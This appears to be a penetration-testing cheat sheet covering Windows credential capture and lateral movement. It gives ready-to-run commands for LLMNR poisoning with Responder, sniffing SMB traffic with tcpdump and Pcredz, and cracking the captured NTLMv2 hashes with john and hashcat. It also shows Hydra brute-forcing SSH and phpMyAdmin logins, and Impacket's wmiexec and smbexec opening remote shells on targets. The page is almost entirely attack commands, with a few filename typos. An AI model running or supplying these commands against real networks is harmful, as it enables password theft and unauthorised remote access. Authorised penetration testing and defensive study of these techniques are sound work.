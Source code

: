 ### Responder and John
```bash
sudo Responder.py -I eth0 
# wait for Responder to reply to a LLMNR request 
# then, check Responder's log directory for the NTLMv2 hash obtained 
cat responder/logs/SMB-NTLMv2-SSP-*.txt
john --format=netntlmv2 responder/logs/SMB-NTLMv2-SSP-*.txt # crack the hash
john --show responder/logs/SMB-NTLMv2-SSP*.txt              # show the password
```

### Tcpdump, Pcredz, and Hashcat
```bash
sudo tcpdump -ni eth0 port 445 -w /tmp/traffic.pcap
# wait for someone to auth via SMB to a Windows machine
sudo Pcredz -vf traffic.pcap
# use /tmp to avoid a segmentation fault
# check Pcredz's log directory for the NTLMv2 hash obtained
cat pcredz/logs/NTLMv2.txt
hashcat -a0 -m5600 -w3 pcredz/logs/NLTMV2.txt                   # crack the hash
hashcat -m5600 pcredz/logs/NTLMv2.txt --show --outfile-format 2 # show the password
```

## SSH
### Hydra
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET -t4 ssh
```

## HTTP
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET \
  http-post-form "/phpmyadmin/index.php?:pma_username=^USER^&pma_password=^PASS^:Cannot|without"
```


# Lateral Movement

## Impacket
### wmiexec.py
`wmicexec.py` connects to DCOM ports (i.e., the WMI service) on the target. 
```bash
# attacker Terminal 1:
wmiexec.py john@target whoami     # specify a single command to run
wmiexec.py john@target            # invoke a semi-interactive shell
```

### smbexec.py
`smbexec.py` connects to SMB ports on the target. 
```bash
# attacker Terminal 1:
smbexec.py john@target            # invoke a semi-interactive shell
# use the full-path to change directories
```
